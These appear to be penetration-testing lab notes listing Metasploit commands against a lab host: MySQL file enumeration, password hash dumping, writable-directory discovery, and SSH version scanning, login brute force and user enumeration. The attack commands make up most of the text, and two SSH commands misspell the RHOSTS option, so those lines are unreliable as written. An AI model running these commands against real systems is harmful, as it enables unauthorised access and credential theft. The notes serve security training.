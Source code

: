 > This shows tables in the respective tables.

```msfconsole
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```

> This module can be used to enumerate files in a SQL.

```msfconsole
use auxiliary/scanner/mysql/mysql_hashdump
set USERNAME root
set PASSWORD twinkle
set RHOSTS demo.ine.local
run
```

> This module dumps all the hashes from the user.

```msfconsole
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS demo.ine.local
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```

> This module gives us the list of all the writeable directories within a machine.

#### SSH Enumeration:

```msfconsole
use auxiliary/scanner/ssh/ssh_version
set RHOSTS <ip-address>
run
```

> This system gives the version of SSH running on the machine.

```msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOTS <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set VERBOSE false
run
```

> This can be used to brute force username and their passwords.

```msfconsole
use auxiliary/scanner/ssh/ssh_enumusers
set RHOTS <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
```
